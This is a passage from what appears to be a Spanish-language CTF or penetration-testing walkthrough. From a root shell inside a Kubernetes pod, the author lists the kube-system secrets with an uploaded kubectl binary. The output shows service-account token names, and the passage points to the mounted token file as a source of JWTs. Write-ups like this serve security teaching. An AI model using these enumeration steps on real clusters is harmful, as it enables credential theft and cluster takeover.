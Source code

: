 Podemos listar secretos de ese **nombre de espacio**...

🛳️ ***`Secret`: This is the place to store secret data like passwords, API keys, creds, etc. encoded in B64.*** [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes#kubernetes-secrets).

Perfecto, para listarlos podemos apoyarnos del subcomando `get secrets`:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ ./kubito get secrets -n kube-system       
NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      169d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      169d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      168d
certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      169d
clusterrole-aggregation-controller-token-scx4p   kubernetes.io/service-account-token   3      169d
coredns-token-dbp92                              kubernetes.io/service-account-token   3      169d
cronjob-controller-token-chrl7                   kubernetes.io/service-account-token   3      169d
daemon-set-controller-token-cb825                kubernetes.io/service-account-token   3      169d
default-token-l85f2                              kubernetes.io/service-account-token   3      169d
deployment-controller-token-cwgst                kubernetes.io/service-account-token   3      169d
disruption-controller-token-kpx2x                kubernetes.io/service-account-token   3      169d
endpoint-controller-token-2jzkv                  kubernetes.io/service-account-token   3      169d
endpointslice-controller-token-w4hwg             kubernetes.io/service-account-token   3      169d
endpointslicemirroring-controller-token-9qvzz    kubernetes.io/service-account-token   3      169d
expand-controller-token-sc9fw                    kubernetes.io/service-account-token   3      169d
generic-garbage-collector-token-2hng4            kubernetes.io/service-account-token   3      169d
horizontal-pod-autoscaler-token-6zhfs            kubernetes.io/service-account-token   3      169d
job-controller-token-h6kg8                       kubernetes.io/service-account-token   3      169d
kube-proxy-token-jc8kn                           kubernetes.io/service-account-token   3      169d
namespace-controller-token-2klzl                 kubernetes.io/service-account-token   3      169d
node-controller-token-k6p6v                      kubernetes.io/service-account-token   3      169d
persistent-volume-binder-token-fd292             kubernetes.io/service-account-token   3      169d
pod-garbage-collector-token-bjmrd                kubernetes.io/service-account-token   3      169d
pv-protection-controller-token-9669w             kubernetes.io/service-account-token   3      169d
pvc-protection-controller-token-w8m9r            kubernetes.io/service-account-token   3      169d
replicaset-controller-token-bzbt8                kubernetes.io/service-account-token   3      169d
replication-controller-token-jz8k8               kubernetes.io/service-account-token   3      169d
resourcequota-controller-token-wg7rr             kubernetes.io/service-account-token   3      169d
root-ca-cert-publisher-token-cnl86               kubernetes.io/service-account-token   3      169d
service-account-controller-token-44bfm           kubernetes.io/service-account-token   3      169d
service-controller-token-pzjnq                   kubernetes.io/service-account-token   3      169d
statefulset-controller-token-z2nsd               kubernetes.io/service-account-token   3      169d
storage-provisioner-token-tk5k5                  kubernetes.io/service-account-token   3      169d
token-cleaner-token-wjvf9                        kubernetes.io/service-account-token   3      169d
ttl-controller-token-z87px                       kubernetes.io/service-account-token   3      169d
```

Listos, tenemos varios secretos, si nos fijamos en la columna `TYPE` nos indica que todos son [kubernetes.io/service-account-token](https://kubernetes.io/docs/concepts/configuration/secret/#service-account-token-secrets), que buscando un poco por la web entendemos que su contenido será siempre un [**JSON Web Token**](https://jwt.io/introduction), o sea, con los que ya hemos tratado:

```bash
(/run/secrets/kubernetes.io/serviceaccount/token)
```
